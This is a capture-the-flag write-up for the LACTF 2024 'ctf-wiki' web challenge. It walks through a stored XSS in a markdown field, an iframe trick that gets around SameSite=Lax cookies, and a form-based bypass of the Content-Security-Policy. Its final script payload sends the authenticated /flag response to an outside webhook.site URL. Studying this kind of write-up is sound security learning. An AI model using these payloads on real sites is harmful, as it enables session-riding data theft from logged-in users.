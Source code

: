 ```yaml
---
title: ctf-wiki
date: 2024-02-20
tags: 
- web
- xss
- cookies
- csp
- author-hartmannsyg
categories: LACTF 2024
---
```


written by {% person hartmannsyg %}

We have an xss (sorta):

on the `/create`, in the description that supports markdown, we can put in script tags. 

![](./static/LACTF2024/ctf-wiki-0.png)

If we view the page *without our authentication cookies* (like an incognito tab), we get an xss.

![](./static/LACTF2024/ctf-wiki-1.png)

However, if you are logged in (i.e. if there are cookies), we get redirected to the edit:

{% ccb lang:py caption:app.py gutter1:101-104 caption:app.py %}
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
{% endccb %}

![](./static/LACTF2024/ctf-wiki-2.png)

So how do we access `/view/<pid>` without the session cookies?

{% ccb gutter1:12 lang:py caption:app.py %}
app.config["SESSION_COOKIE_SAMESITE"] = "Lax"
{% endccb %}

iframes only send SameSite=None cookies so if we set up our own website and use an iframe the cookies will not be sent:

{% ccb gutter1:1 lang:html caption:inject.html %}
<iframe src="https://ctf-wiki.chall.lac.tf/view/<pid>"></iframe>
{% endccb %}

Now that we have xss inside our iframe, we need to somehow access `/flag` *with* the cookies.

We can use window.open(), but we need to POST flag. We can't use scripts either due to the content security policy:
{% ccb gutter1:34-40 lang:py caption:app.py %}
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response
{% endccb %}

If we *edit* the opened window document:
{% ccb gutter1:1-7 lang:html caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.write("<script>fetch('https://ctf-wiki.chall.lac.tf/flag',{method:'post'})<\/script>")
    }
</script>
{% endccb %}


We get
{% ccb terminal:true wrapped:true %}
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-74J0XhNNZyeyG2hc6SR5UoGLY+N1BT22Dw9QC4ZeN/Y='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
{% endccb %}

So in order to send a POST request without scripts, we use a form and submit it.
{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            console.log(w.document.body.innerText)
        }, 1000)
    }
</script>
{% endccb %}

We see that there is a `POST /flag` being sent (I went a bit overkill and track traffic via Requestly):

![](./static/LACTF2024/ctf-wiki-3.png)


Now we just need to steal the `w.document.body.innerText`

{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            window.location = 'https://webhook.site/<id>/flag='+w.document.body.innerText;
        }, 1000)
    }
</script>
{% endccb %}
we get a request:
{% ccb terminal:true %}
https://webhook.site/<id>/flag=lactf%7Bk4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3%7D
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
{% endccb %}

